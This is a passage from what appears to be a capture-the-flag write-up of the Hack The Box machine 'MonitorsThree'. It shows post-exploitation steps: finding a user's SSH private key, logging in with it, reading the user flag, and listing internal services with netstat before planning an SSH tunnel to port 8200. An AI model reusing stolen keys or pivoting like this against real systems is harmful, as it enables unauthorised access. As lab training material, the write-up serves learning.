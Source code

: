 ```bash
-rw-r--r-- 1 marcus marcus  807 Jan  6  2022 .profile
drwx------ 2 marcus marcus 4096 Aug 20 13:07 .ssh
-rw-r----- 1 root   marcus   33 Jan 17 14:09 user.txt
marcus@monitorsthree:~$ ls .ssh/
ls .ssh/
authorized_keys  id_rsa  id_rsa.pub
marcus@monitorsthree:~$ ls .ssh/id_rsa
ls .ssh/id_rsa
.ssh/id_rsa
marcus@monitorsthree:~$
```
We have obtained the id_rsa private key for marcus user so we will use it to connect throught ssh for more shell stability
Hence we get the user flag

```bash
[Jan 17, 2025 - 16:52:17 ] htb monitors3 ➜  ssh marcus@monitorsthree.htb -i id_rsa
Last login: Fri Jan 17 15:24:22 2025 from 10.10.14.225
marcus@monitorsthree:~$ cat user.txt
b0c8428b7b0fec0b63b2b4e44406eeaa
marcus@monitorsthree:~$
```

## Privilege Escalation

Running `netstat -antup4` reveals an internal service running on port 8200 bound to 172.18.0.2 and 127.0.0.1
This suggest the service on port 8200 is running on docker and is exposed internally on port 8200

```bash
marcus@monitorsthree:~$ netstat -antup4
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:8084            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8200          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38475         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:38448         127.0.0.1:8200          TIME_WAIT   -
tcp        0      0 127.0.0.1:38486         127.0.0.1:8200          TIME_WAIT   -
tcp        0      0 172.18.0.1:50018        172.18.0.2:8200         TIME_WAIT   -
tcp        0      0 127.0.0.1:38460         127.0.0.1:8200          TIME_WAIT   -
tcp        0      0 10.129.86.40:38826      10.10.14.225:1337       CLOSE_WAIT  -
tcp        0      0 127.0.0.1:38446         127.0.0.1:8200          TIME_WAIT   -
tcp        0      0 127.0.0.1:38476         127.0.0.1:8200          TIME_WAIT   -
tcp        0      0 172.18.0.1:50036        172.18.0.2:8200         TIME_WAIT   -
tcp        0      0 172.18.0.1:50026        172.18.0.2:8200         TIME_WAIT   -
tcp        0      0 10.129.86.40:47668      10.10.14.225:1337       CLOSE_WAIT  -
tcp        0      0 172.18.0.1:50008        172.18.0.2:8200         TIME_WAIT   -
tcp        0      0 10.129.86.40:51522      10.10.14.225:1337       ESTABLISHED -
tcp        0      0 172.18.0.1:50028        172.18.0.2:8200         TIME_WAIT   -
tcp        0    276 10.129.86.40:22         10.10.14.225:44332      ESTABLISHED -
udp        0      0 10.129.86.40:33162      1.1.1.1:53              ESTABLISHED -
udp        0      0 10.129.86.40:33225      1.1.1.1:53              ESTABLISHED -
udp        0      0 127.0.0.1:50307         127.0.0.53:53           ESTABLISHED -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```
Since we have marcus ssh id_rsa private key we can tunnel target port 8200 through ssh, 127.0.0.1:8200
